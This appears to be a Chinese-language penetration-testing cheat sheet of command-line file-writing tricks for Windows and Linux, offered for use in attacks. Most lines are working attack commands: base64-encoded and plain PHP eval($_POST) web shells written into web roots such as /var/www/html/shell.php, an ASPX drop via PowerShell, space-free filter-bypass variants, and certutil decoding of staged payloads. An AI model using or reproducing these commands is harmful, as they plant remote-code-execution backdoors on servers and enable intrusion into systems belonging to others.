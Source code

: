 ### Windows
	读文本文件：
	>file = Get-Content "1.txt"
	>file
	写文件
	>powershell Set-content "1.txt" "wocao"
	&
	>powershell "write-output ([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String(\"d2Vic2hlbGw=\"))) | out-file -filepath c:\www\wwwroot\1.aspx;"
	或
	>set /p=^<?php phpinfo()?^><nul>c:\1.php
	或
	>echo ^<?php phpinfo()?^>>c:\1.php
	追加内容
	>echo 111>>c:\1.php
	不换行追加
	>set /p="222">>c:\1.php
	分段不换行追加
	>echo|set /p=\"PCFET0NUWVBFIGh0bWw+IDxodG1sPiA8aGVhZD4gPG1ldGEgaHR0cC1lcXVpdj0iQ29udGVudC1UeXBlIiBjb250ZW50PSJ0ZXh0L2h0bWw7IGNoYXJzZXQ9dXRmLTgiIC8+PGgxPjIwMjHlubR4eHjnvZHnu5zlronlhajlrp7miJjmvJTnu4M8L2gxPg==\" > D:\www\1.txt
	读/写入命令无空格
	>type;c:\1.php
	>echo.111>>c:\1.php
	>echo,111>>c:\1.php
	写入特殊字符
	>certutil -f -decode 1.txt C:\\1.php
	>certutil -decodehex 1.txt C:\\1.php
### Linux
  	>echo PD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk7Pz4=|base64 -d > /var/www/html/shell.php
	>echo \<\?php eval\(\@\$_POST\[1\]\)\; \?\> >1.php